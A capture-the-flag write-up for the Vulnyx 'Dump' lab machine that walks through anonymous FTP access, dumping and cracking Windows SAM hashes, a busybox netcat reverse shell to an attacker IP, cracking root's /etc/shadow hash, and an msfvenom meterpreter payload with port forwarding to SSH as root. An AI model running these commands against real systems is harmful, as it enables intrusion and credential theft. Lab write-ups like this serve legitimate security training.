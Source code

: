 ```yaml
---
title: Dump - Vulnyx Writeup
date: 2024-04-17 10:03
categories: [ctf, linux, easy]
tags: [vulnyx, linux, ctf, easy, dump]    # TAG names should be lowercase
---
```


# Machine Info

Dump was an easy rated Linux machine on Vulnyx, Involves dumping user hashes from SAM file and cracking it those hashes using hashcat for initial access. For root access, user dumper have writes to read the `/etc/shadow` file, which leaks the root user password hash which leads to get access to root user on the box.

# User 
## Scanning through Nmap

First of all we will go with nmap to scan the whole network and check for services running on the network. To scan the whole network and find all the open ports i use **-p-** used to scan the whole **65535** ports with **--min-rate 10000** to scan network faster from **nmap** and i found a list of open ports on the network and get only the open ports using different terminal tools like **cut**, **tr** etc. 

```shell
$ nmap -p- --min-rate 10000 192.168.190.134 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
21,80, 4200
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p21,80,4200 -sC -sV -A -T4 192.168.190.134 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file

```bash
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      pyftpdlib 1.5.4
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.190.134:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup [NSE: writeable]
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
4200/tcp open  ssl/http ShellInABox
| ssl-cert: Subject: commonName=dump
| Not valid before: 2024-02-09T11:53:57
|_Not valid after:  2044-02-04T11:53:57
|_ssl-date: TLS randomness does not represent time
|_http-title: Shell In A Box
```

Through Nmap, we found three open ports, **21 FTP** with anonymous login allowed, port **80 HTTP** web and port **4200 ssl/HTTP** also web. Becasue we are allowed to login as anonymous user on FTP, lets dive into it and check if we found any useful file or folder their.

### 21 FTP

After login to FTP using anonymous credientials, we found a **.backup** directory. after looking into the **.backup** directory, we found two files **sam.bak** and **system.bak**. 
So what are **sam** and **system** files, **sam** file is a file in windows that holds the **usernames** and **NTLM** password hashes of local users on system. This is file is encrypted and it's key is stored in a registry file called **system**. You can learn more about it [here](https://juggernaut-sec.com/dumping-credentials-sam-file-hashes/)

<img  alt="Pasted image 20240415093027" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/44353a42-8d79-4d12-af4e-e1002c4abfea">

So in our case we have both system and sam file, lets try to dump the password hashes from it, we can use tool called secretsdump.py from impacket toolkit for that purpose
**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read NTDS.dit directly from the disk or it can use the parser module to read NTDS.dit files from a copy.
secretsdump.py dump **usernames** and their **password** hashes for us, if we were facing a windows machine, then we can perform **pass-the-hash** attack to gain access on the machine, without decrypting it. But, because we are on Linux machine, we have to decrypt it.

```bash
$ secretsdump.py -sam sam.bak -system system.bak LOCAL
```

- **-sam** to parse sam file
- **-system** to parse system file
- **LOCAL** because we parse these files locally

<img alt="Pasted image 20240415094024" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/7e50225e-4f01-474a-9f68-80f987dd230b">

```NTLM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
```

After saving these hashes let's fire up hashcat to perform dictionary attack to decrypt these hashes.
Hashcat is **a password cracking tool used for licit and illicit purposes**. Hashat is a particularly fast, efficient, and versatile hacking tool that assists brute-force attacks by conducting them with hash values of passwords that the tool is guessing or applying

```bash
$ hashcat -m 1000 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

- **-m** to specify module number of NTLM hash which is 1000 in our case

<img  alt="Pasted image 20240415095409" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/292758d4-c28c-4db8-9438-a3c219c2d6f0">

We were successfully able to crack the password of user **admin** and **dumper**

```passwords
dumper:7324322d85d3714068d67eccee442365:1dumper
admin:556a8f7773e850d4cf4d789d39ddaca0:blabla
```

### 80 HTTP

On port 80 their is a simple apache default page is runnig. feroxbuster also didn't found any useful path their.

<img  alt="Pasted image 20240415100300" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4959a089-4f9d-47ce-8e36-f7d7b1111be4">

### 4200 HTTPs

On TCP port 4200, there is a some kind of login page is working called dump login.

<img alt="Pasted image 20240415095754" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/9ea8608c-b05b-41c0-a7b6-5e2cbb996bf2">

I tried to login to it using admin credentials but admin credentials didn't worked their, then I tried to login using dumper credentials and it worked and we got a shell on the box as dumper user. Their is also our user flag is present.

<img  alt="Pasted image 20240415100118" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/20f35516-de07-4c82-abaa-1f1241f6d4b7">

Let's get shell on our box using **busybox** and make it stable.

```bash
$ busybox nc 192.168.190.129 9001 -e sh
$ nc -lvnp 9001
$ ptyhon3 -c "import pty; pty.spawn('/bin/bash')"
$ export TERM=xterm
```


# Privilege Escalation

Linpeas reveals that we have a read access to `/etc/shadow` file, a file that contains user's passwords hashes on Linux system. 

<img  alt="Pasted image 20240416102724" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f6cf35b5-0896-4e50-958a-fc6f29057a75">

Lets, copy root hash and try to break it using hashcat on our local machine.

```bash
$ hashcat -m 1800 root-hash rockyou.txt

# Cracked Hash
$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:shadow123
```

Linpease also discover that port **22 ssh** was running locally on the machine. I decided to forward it to my attacker machine. 

<img  alt="Pasted image 20240416103403" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/6b2026cc-6e0a-493d-a7ee-1ca975946436">

First, lets get a shell on **metasploit** and then perform port forwarding, there are also  many other ways to perform port forwarding but the metasploit one is more simple and easy.
To get a shell on metasploit, first create a elf file using **msfvenom** and then deliver it on victim machine using python3 server.

```bash
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.190.133 LPORT=4444 -f elf -o shel.elf

# Python server
$ python3 -m http.server 80
```

<img alt="Pasted image 20240415103604" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/a67df831-57e4-413c-a994-9ece495be28b">

After that run a listener on metasploit using

```bash
$ use exploit/multi/handler
$ set payload linux/x64/meterpreter_reverse_tcp
$ set LHOST=<attacker IP>
$ set LPORT=<that you specified in msfvenom payload>
$ run
```

Now whenever someone will run our **shel.elf** file, we will receive a shell back on our metasploit listener.

<img  alt="Pasted image 20240415104043" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/8bde988f-b67e-42e1-b0d7-c8fabebaed39">

Now Lets forward our port 22 to our attacker machine using:

```bash
$ portfwd -l 101 -p 22 -r 127.0.0.1
```

- **-l** for local port
- **-p** for remote port
- **-r** remote host

<img  alt="Pasted image 20240416104103" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4f3d40ad-0603-4c03-9883-4627d124bfe7">

Now let's get a shell as root using ssh and grab our root.txt.

```bash
$ ssh root@127.0.0.1 -p 101
```

<img  alt="Pasted image 20240416104235" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f26a30e0-d44f-4d6d-b80e-9ce33d001f57">


# Happy Hacking ❤
